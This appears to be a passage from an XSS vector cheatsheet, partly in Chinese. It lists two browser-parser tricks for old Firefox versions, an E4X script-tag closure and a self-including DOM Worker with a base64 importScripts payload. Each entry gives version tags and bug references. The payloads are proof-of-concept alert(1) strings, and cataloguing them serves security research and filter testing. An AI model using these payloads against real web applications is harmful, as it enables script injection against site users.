 *   [`developer.mozilla.org/en/E4X`](https://developer.mozilla.org/en/E4X)

*   [`bugzilla.mozilla.org/show_bug.cgi?id=564706`](https://bugzilla.mozilla.org/show_bug.cgi?id=564706)

reporter：.mario

### E4X used to close an opening <SCRIPT> tag and {} evaluation#75test

In this example an E4X object is being used to close a half-open <SCRIPT> tag and evaluate code in the global scope afterwards via the E4X curly bracket delimiters. This technique will not work anymore as soon Firefox uses the already integrated HTML5 parser (html5.enable=true)

```
<script<{alert(1)}/></script </> 
```

*   firefox 1.5
*   firefox 3.6.28

*   xss

*   javascript
*   e4x
*   script
*   parser
*   regex

*   [`developer.mozilla.org/en/E4X`](https://developer.mozilla.org/en/E4X)

*   [`bugzilla.mozilla.org/show_bug.cgi?id=564706`](https://bugzilla.mozilla.org/show_bug.cgi?id=564706)

reporter：.mario, Gareth

## DOM 属性与方法的攻击向量

### 通过 DOM Worker 包含上下文本身进行 XSS#4test

这是一个 self-including 的例子,通过 DOM worker 包含上下文的方式触发事件引起脚本执行.

```
0?<script>Worker("#").onmessage=function(_)eval(_.data)</script> :postMessage(importScripts('data:;base64,cG9zdE1lc3NhZ2UoJ2FsZXJ0KDEpJyk')) 
```

*   firefox 3.5
*   firefox 15.0

*   xss

*   dom
*   firefox
*   worker
*   self-inclusion
*   e4x
